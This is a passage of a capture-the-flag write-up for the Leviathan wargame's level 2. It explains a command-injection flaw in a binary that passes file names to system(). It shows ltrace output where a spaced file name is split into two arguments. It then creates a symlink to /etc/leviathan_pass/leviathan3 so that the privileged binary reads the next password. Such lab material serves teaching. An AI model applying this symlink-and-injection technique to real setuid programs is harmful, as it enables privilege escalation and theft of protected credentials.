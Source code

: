   `+++ exited (status 0) +++`

The `printfile` program exits **normally** with exit code `0`.

From the binary, we have a small security hole that is, using `system()` with user-supplied input (`test.txt`) and not sanitizing it is dangerous, it makes the binary **vulnerable to command injection**.

In short, the **real user ID (RUID)** represents the actual user who owns the process, essentially your true identity. The **effective user ID (EUID)**, on the other hand, is what the operating system uses to decide whether you have permission to perform certain actions — it's the ID that determines your access rights in most cases (though there are some exceptions).

With that we can try to have a file with spaces and see how the binary will execute it.

```jsx
leviathan2@leviathan:/tmp/new$ touch pass\ file.txt
leviathan2@leviathan:/tmp/new$ ./printfile "pass file.txt" 
/bin/cat: pass: No such file or directory
/bin/cat: file.txt: No such file or directory
leviathan2@leviathan:/tmp/new$ ltrace ./printfile "pass file.txt" 
__libc_start_main(0x80490ed, 2, 0xffffd3f4, 0 <unfinished ...>
access("pass file.txt", 4)                                                                                           = 0
snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt")                                              = 22
geteuid()                                                                                                            = 12002
geteuid()                                                                                                            = 12002
setreuid(12002, 12002)                                                                                               = 0
system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 256
+++ exited (status 0) +++
leviathan2@leviathan:/tmp/new$ 
```

As seen above, the binary is reading the file as two separate files. We can create a [symbolic link](https://en.wikipedia.org/wiki/Symbolic_link) for the pass part of the file and link it to `/etc/leviathan_pass/leviathan3` in order to get the password for the next level when the binary tries to open the file as shown below.

```jsx
leviathan2@leviathan:/tmp/new$ ln -s /etc/leviathan_pass/leviathan3 /tmp/new/pass
leviathan2@leviathan:/tmp/new$ ls -la
total 40
drwxrwxr-x   2 leviathan2 leviathan2  4096 Jul 29 07:15 .
drwxrwx-wt 455 root       root       20480 Jul 29 07:15 ..
lrwxrwxrwx   1 leviathan2 leviathan2    30 Jul 29 07:15 pass -> /etc/leviathan_pass/leviathan3
-rw-rw-r--   1 leviathan2 leviathan2     0 Jul 29 07:10 pass file.txt
-r-xr-x---   1 leviathan2 leviathan2 15072 Jul 29 06:48 printfile
leviathan2@leviathan:/tmp/new$ 
```
